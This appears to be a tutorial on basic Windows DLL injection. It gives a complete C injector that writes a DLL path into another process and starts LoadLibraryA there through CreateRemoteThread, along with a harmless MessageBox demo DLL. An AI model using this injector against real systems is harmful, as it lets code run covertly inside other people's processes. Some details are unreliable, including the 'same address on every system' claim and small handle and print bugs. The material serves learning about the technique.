

# Basic DLL Injection
•
http://blog.opensecurityresearch.com/2013/01/windows-dll-injection-basics.html•
https://www.ired.team/offensive-security/code-injection-process-injection/dll-injectionThis is the most basic form of DLL injection:
• you open a handle to the target -
OpenProcess• allocate memory in the target -
VirtualAllocEx• write the path of the DLL you want to inject into the target -
WriteProcessMemory• call
LoadLibraryA in the target process with your DLL path to load your DLL into the target
This works because the
LoadLibraryA function exists at the same location in every process.
•
LoadLibraryA lives in
Kernel32.dll•
Kernel32.dll is loaded into every running process
•
Kernel32.dll lives at the same location in every process:
◇
0x753b0000 on 32bit
◇
0x7ff9cfe10000 on 64bit
◇ (you can verify this yourself with Process Hacker and checking the
Modules tab)
• Therefore, we can simply grab the address of LoadLibraryA in our own process
◇ and it will be the same address for every other running process on the system.
Downsides•
LoadLibraryA registers the injected DLL with the target, which makes for easy detection of the injected DLL
•
LoadLibraryA will only load a DLL once. You can't repeatedly inject into the process with the same DLL
VariationsThe variations to this technqiue are simply how you execute
LoadLibraryA in the target process.
You can use:
•
CreateRemoteThread (used here)
•
NtCreateThreadEx•
QueueUserAPC•
RtlCreateUserThreadLots of examples here:
•
https://github.com/fdiskyou/injectAllTheThings•
https://github.com/fdiskyou/injectAllTheThings/tree/master/injectAllTheThings## Demo
The DLL I've injected is this:
#include <Windows.h>
void Hello(void)
{
MessageBoxA(NULL, "hey! i'm a DLL. i've been attached :)", "smile", MB_OK);
return;
}
BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved)
{
switch (fdwReason)
{
case DLL_PROCESS_ATTACH:
Hello();
break;
case DLL_THREAD_ATTACH:
break;
case DLL_THREAD_DETACH:
break;
case DLL_PROCESS_DETACH:
break;
}
return TRUE;
}
I'm injecting into
notepad.exeNotepad's PID is
14124 (seen in Process Hacker).
In the screenshot below we can see that I've injected into
notepad.exe, and that notepad now has 2 windows - one is the notepad window and the other is our injected DLL's window that says hello.
I ran PowerShell as Administrator to just make sure my DLL injector had Administrator privileges and gain full access to notepad.exe and write into it.
## Code
#include <stdio.h>
#include <Windows.h>
int main(int argc, char* argv[])
{
BOOL b_ret = TRUE;
LPVOID LoadLibraryA_address = NULL;
char* dll_path = NULL;
SIZE_T dll_path_len = 0;
int target_pid = 0;
HANDLE h_target = NULL;
HANDLE h_target_thread = NULL;
LPVOID target_memory = NULL;
printf("# dll injector \n");
printf("- Writes DLL path into target and calls LoadLibraryA \n");
printf("- advise running as Adminstrator \n");
printf("\n");
if (argc != 3)
{
printf("[-] not enough arguments :/ \n");
printf("usage: dll_injector.exe [target pid] [dll path] \n");
return EXIT_FAILURE;
}
target_pid = atoi(argv[1]);
dll_path = argv[2];
dll_path_len = strlen(dll_path);
printf("[*] target process: %d \n", target_pid);
printf("[*] dll to inject: %s \n", dll_path);
printf("[*] dll path len: %lld \n", dll_path_len);
// open handle to target process
h_target = OpenProcess(PROCESS_ALL_ACCESS, FALSE, target_pid);
if (h_target == NULL)
{
printf("[-] failed to open handle to target process: %d \n", GetLastError());
goto cleanup;
}
else
printf("[+] opened handle to target process \n");
// allocate space for DLL path in target
target_memory = VirtualAllocEx(h_target, NULL, dll_path_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
if (target_memory == NULL)
{
printf("[-] failed to allocate memory in target process: %d \n", GetLastError());
goto cleanup;
}
else
printf("[+] allocated memory in target @ 0x%p \n", target_memory);
// write DLL path into target
b_ret = WriteProcessMemory(h_target, target_memory, (LPVOID)dll_path, dll_path_len, NULL);
if (b_ret == FALSE)
{
printf("[-] failed to write DLL path into target: %d \n", GetLastError());
VirtualFreeEx(h_target, target_memory, dll_path_len, MEM_RELEASE);
goto cleanup;
}
else
printf("[+] dll path written to 0x%p \n", target_memory);
// grab address of LoadLibraryA
/*
The LoadLibraryA function exists in Kernel32.dll
Kernel32.dll is loaded into every running process
Kernel32.dll lives at the same location in every process:
- 0x753b0000 on 32bit
- 0x7ff9cfe10000 on 64bit
Therefore, we can simply grab the address of LoadLibraryA in our own process,
and it will be the same address for every other running process on the system.
*/
LoadLibraryA_address = (LPVOID)GetProcAddress(GetModuleHandleA("Kernel32.dll"), "LoadLibraryA");
printf("[+] LoadLibraryA @ 0x%p \n", LoadLibraryA);
// create thread in target process to execute LoadLibraryA and load our DLL
h_target_thread = CreateRemoteThread(h_target, NULL, 0, (LPTHREAD_START_ROUTINE)LoadLibraryA_address, target_memory, 0, NULL);
if (h_target_thread == NULL)
{
printf("[-] failed to create thread in target process: %d \n", GetLastError());
VirtualFreeEx(h_target, target_memory, dll_path_len, MEM_RELEASE);
goto cleanup;
}
else
printf("[+] LoadLibraryA called in target! your DLL is being loaded... \n");
cleanup:
if (h_target) CloseHandle(h_target);
if (h_target_thread) CloseHandle(h_target);
return 0;
}